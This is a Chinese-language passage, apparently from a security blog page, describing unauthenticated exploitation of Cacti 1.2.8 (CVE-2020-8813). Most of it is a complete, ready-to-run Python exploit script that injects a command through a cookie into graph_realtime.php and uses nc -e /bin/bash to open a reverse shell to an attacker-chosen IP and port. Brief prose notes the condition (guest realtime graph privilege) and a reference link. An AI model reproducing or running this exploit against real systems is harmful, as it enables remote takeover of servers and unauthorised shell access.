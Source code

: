 ### 未经身份验证的利用

如果Cacti启用了"来宾实时图"特权，则无需身份验证即可利用此漏洞，因此在这种情况下，不需要身份验证部分，您可以使用以下代码来利用此漏洞：

    #!/usr/bin/python3
     
    # Exploit Title: Cacti v1.2.8 Unauthenticated Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33
     
    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote
     
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
     
     
    if len(sys.argv) != 4:
        print("[~] Usage : ./Cacti-exploit.py url ip port")
        exit()
     
    url = sys.argv[1]
    ip = sys.argv[2]
    port = sys.argv[3]
     
    def send_exploit(url):
        payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
        cookies = {'Cacti': quote(payload)}
        path = url+"/graph_realtime.php?action=init"
        req = requests.get(path)
        if req.status_code == 200 and "poller_realtime.php" in req.text:
            print("[+] File Found and Guest is enabled!")
            print("[+] Sending malicous request, check your nc ;)")
            requests.get(path, cookies=cookies)
        else:
            print("[+] Error while requesting the file!")
     
    send_exploit(url)

image

如我们所见，如果启用了" Gest Realtime
Graphs"特权，我们也可以毫无问题地利用它，因此最好检查"
graph\_realtime.php"文件是否具有此访问特权。

参考链接
--------

> https://shells.systems/cacti-v1-2-8-authenticated-remote-code-execution-cve-2020-8813/
